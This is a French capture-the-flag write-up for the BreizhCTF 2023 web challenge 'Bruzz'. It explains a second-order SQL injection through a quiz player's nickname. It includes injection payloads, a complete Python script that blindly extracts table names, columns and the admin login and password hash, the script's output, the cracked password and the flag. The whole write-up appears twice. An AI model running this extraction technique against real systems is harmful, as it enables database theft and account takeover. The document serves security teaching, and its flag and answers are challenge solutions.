





BreizhCTF 2023 - Bruzz
=======================

### Challenge details

| Event          | Challenge | Category | Points | Solves |
| -------------- | --------- | -------- | ------ | ------ |
| BreizhCTF 2023 | Bruzz | Web      | ???    | ???    |


Sous la forme d'un plateau de jeu télévisé, le jeu Bruzz! propose de répondre à de nombreuses questions réparties dans le domaine le plus intéressant : la Bretagne !

Auteur: [Zeecka](https://twitter.com/Zeecka_)

https://bruzz.ctf.bzh/

### TL;DR

Le Quizz disposait d'un injection SQL de second ordre, nécessitant d'enregistrer en premier lieu un joueur avec un pseudo contenant l'injection SQL, jouer puis vérifier son score pour déclancher l'injection. L'extraction de la base  de donnée de manière aveugle permet de récupérer les identifiants de l'unique administrateur et récupérer le flag.

### Méthodologie


L'application web "Bruzz" propose de répondre à un Quizz au format QCM, en remplissant préalablement un pseudo. A l'issue de la soumission des réponses, un message est affiché avec le score du joueur et le nombre de fois où ce dernier a été aperçu sur la plateforme:


Les différents tests sur la soumission de réponses ne donnant rien. La découverte de ressources avec `dirsearch` ou `gobuster` permettent de découvrir un endpoint d'administration `/admin`, non vulnérable encore une fois.




Les tentatives d'injections dans le Pseudo en revanchement permettent de récupérer des résultats différents confirmant l'hypothèse d'une injection SQL:

- Pseudo `' OR '1'='1`


- Pseudo `' AND '1'='0`


Nous pouvons donc confirmer que nous avons une injection SQL au travers de plusieurs requètes (Second order SQL Injection). L'écriture d'un script d'exfiltration permet de récupérer le contenu de la base de donnée:

```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-

import requests
import random
import string


HOST = "https://bruzz.ctf.bzh/"

s = requests.session()
letters = string.ascii_lowercase + string.ascii_uppercase + string.digits

def get_random_string(length=6):
    # Used for random comment
    result_str = ''.join(random.choice(letters) for i in range(length))
    return result_str

def is_true(inject):
    inject = inject+f" #{get_random_string()}"  # Random comment to avoid same name player
    s.post(f"{HOST}/register", json={"name": inject})  # Play
    rep = s.post(f"{HOST}/quizz", json={"responses": [0, 2, 1, 3]})  # Submit answers
    try:
        nb = int(rep.json()["msg"].split(">")[1].split("<")[0])  # Get players numbers
        return nb > 0
    except:
        return False


for i in range(1, 5):
    r = is_true(f"' OR 1=1 AND (SELECT count(table_name) FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' ) = {i}")
    if r:
        print(f"[*] Nombre de tables: {i}")
# 2 tables

table = ""
while len(table) < 15:  # While True
    for l in letters:
        r = is_true(f"' OR 1=1 AND (SELECT table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' LIMIT 1) LIKE '{table+l}%'")
        if r:
            table += l
            print(f"[*] Table: {table}", end="\r")
            break
print(f"[*] Table: {table}")
# Table administrateurs

col = ""
while len(col) < 8:  # While True
    for l in letters:
        r = is_true(f"' OR 1=1 AND (SELECT column_name FROM information_schema.columns WHERE table_name = '{table}' LIMIT 1) LIKE '{col+l}%'")
        if r:
            col += l
            print(f"[*] Column: {col}", end="\r")
            break
print(f"[*] Column: {col}")
# Column username

col = ""
while len(col) < 6:  # While True
    for l in letters:
        r = is_true(f"' OR 1=1 AND (SELECT column_name FROM information_schema.columns WHERE table_name = '{table}' LIMIT 1,1) LIKE '{col+l}%'")
        if r:
            col += l
            print(f"[*] Column: {col}", end="\r")
            break
print(f"[*] Column: {col}")
# Column passwd


user = ""
while len(user) < 13:  # While True
    for l in letters+".":
        r = is_true(f"' OR 1=1 AND (SELECT 1 FROM administrateurs WHERE username LIKE '{user+l}%') = 1")
        if r:
            user += l
            print(f"[*] Username: {user}", end="\r")
            break
print(f"[*] Username: {user}")
# Username (julien.lepers)

pwd = ""
while len(pwd) < 40:  # While True
    for l in letters+".":
        r = is_true(f"' OR 1=1 AND (SELECT 1 FROM administrateurs WHERE passwd LIKE '{pwd+l}%') = 1")
        if r:
            pwd += l
            print(f"[*] Password: {pwd}", end="\r")
            break
print(f"[*] Password: {pwd}")
# Password (ff19f7e740cdecdcc4e3bc182b8c9b8d19a7072c)
```

```
[*] Nombre de tables: 2
[*] Table: administrateurs
[*] Column: username
[*] Column: passwd
[*] Username: julien.lepers
[*] Password: ff19f7e740cdecdcc4e3bc182b8c9b8d19a7072c
```

Nous avons récupéré un compte d'administration, mais le mot de passe semblé hashé. Heureusement, ce dernier est facilement cassable et dfisponible sur [crackstation](https://crackstation.net/).



Nous pouvons à présent nous connecter au compte d'administration avec les identifiants suivant:
- Login : `julien.lepers`
- Mot de passe : `ouiouioui`


# Flag

`BZHCTF{BurgerQuizSecondOrder}`
Ma description.

https://bruzz.ctf.bzh/

### TL;DR

Le Quizz disposait d'un injection SQL de second ordre, nécessitant d'enregistrer en premier lieu un joueur avec un pseudo contenant l'injection SQL, jouer puis vérifier son score pour déclancher l'injection. L'extraction de la base  de donnée de manière aveugle permet de récupérer les identifiants de l'unique administrateur et récupérer le flag.

### Méthodologie


L'application web "Bruzz" propose de répondre à un Quizz au format QCM, en remplissant préalablement un pseudo. A l'issue de la soumission des réponses, un message est affiché avec le score du joueur et le nombre de fois où ce dernier a été aperçu sur la plateforme:


Les différents tests sur la soumission de réponses ne donnant rien. La découverte de ressources avec `dirsearch` ou `gobuster` permettent de découvrir un endpoint d'administration `/admin`, non vulnérable encore une fois.


Les tentatives d'injections dans le Pseudo en revanchement permettent de récupérer des résultats différents confirmant l'hypothèse d'une injection SQL:

- Pseudo `' OR '1'='1`


- Pseudo `' AND '1'='0`


Nous pouvons donc confirmer que nous avons une injection SQL au travers de plusieurs requètes (Second order SQL Injection). L'écriture d'un script d'exfiltration permet de récupérer le contenu de la base de donnée:

```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-

import requests
import random
import string


HOST = "https://bruzz.ctf.bzh/"

s = requests.session()
letters = string.ascii_lowercase + string.ascii_uppercase + string.digits

def get_random_string(length=6):
    # Used for random comment
    result_str = ''.join(random.choice(letters) for i in range(length))
    return result_str

def is_true(inject):
    inject = inject+f" #{get_random_string()}"  # Random comment to avoid same name player
    s.post(f"{HOST}/register", json={"name": inject})  # Play
    rep = s.post(f"{HOST}/quizz", json={"responses": [0, 2, 1, 3]})  # Submit answers
    try:
        nb = int(rep.json()["msg"].split(">")[1].split("<")[0])  # Get players numbers
        return nb > 0
    except:
        return False


for i in range(1, 5):
    r = is_true(f"' OR 1=1 AND (SELECT count(table_name) FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' ) = {i}")
    if r:
        print(f"[*] Nombre de tables: {i}")
# 2 tables

table = ""
while len(table) < 15:  # While True
    for l in letters:
        r = is_true(f"' OR 1=1 AND (SELECT table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' LIMIT 1) LIKE '{table+l}%'")
        if r:
            table += l
            print(f"[*] Table: {table}", end="\r")
            break
print(f"[*] Table: {table}")
# Table administrateurs

col = ""
while len(col) < 8:  # While True
    for l in letters:
        r = is_true(f"' OR 1=1 AND (SELECT column_name FROM information_schema.columns WHERE table_name = '{table}' LIMIT 1) LIKE '{col+l}%'")
        if r:
            col += l
            print(f"[*] Column: {col}", end="\r")
            break
print(f"[*] Column: {col}")
# Column username

col = ""
while len(col) < 6:  # While True
    for l in letters:
        r = is_true(f"' OR 1=1 AND (SELECT column_name FROM information_schema.columns WHERE table_name = '{table}' LIMIT 1,1) LIKE '{col+l}%'")
        if r:
            col += l
            print(f"[*] Column: {col}", end="\r")
            break
print(f"[*] Column: {col}")
# Column passwd


user = ""
while len(user) < 13:  # While True
    for l in letters+".":
        r = is_true(f"' OR 1=1 AND (SELECT 1 FROM administrateurs WHERE username LIKE '{user+l}%') = 1")
        if r:
            user += l
            print(f"[*] Username: {user}", end="\r")
            break
print(f"[*] Username: {user}")
# Username (julien.lepers)

pwd = ""
while len(pwd) < 40:  # While True
    for l in letters+".":
        r = is_true(f"' OR 1=1 AND (SELECT 1 FROM administrateurs WHERE passwd LIKE '{pwd+l}%') = 1")
        if r:
            pwd += l
            print(f"[*] Password: {pwd}", end="\r")
            break
print(f"[*] Password: {pwd}")
# Password (ff19f7e740cdecdcc4e3bc182b8c9b8d19a7072c)
```

```
[*] Nombre de tables: 2
[*] Table: administrateurs
[*] Column: username
[*] Column: passwd
[*] Username: julien.lepers
[*] Password: ff19f7e740cdecdcc4e3bc182b8c9b8d19a7072c
```

Nous avons récupéré un compte d'administration, mais le mot de passe semblé hashé. Heureusement, ce dernier est facilement cassable et dfisponible sur [crackstation](https://crackstation.net/).


Nous pouvons à présent nous connecter au compte d'administration avec les identifiants suivant:
- Login : `julien.lepers`
- Mot de passe : `ouiouioui`


#### Flag

`BZHCTF{BurgerQuizSecondOrder}`

Auteur: [Zeecka](https://twitter.com/zeecka_)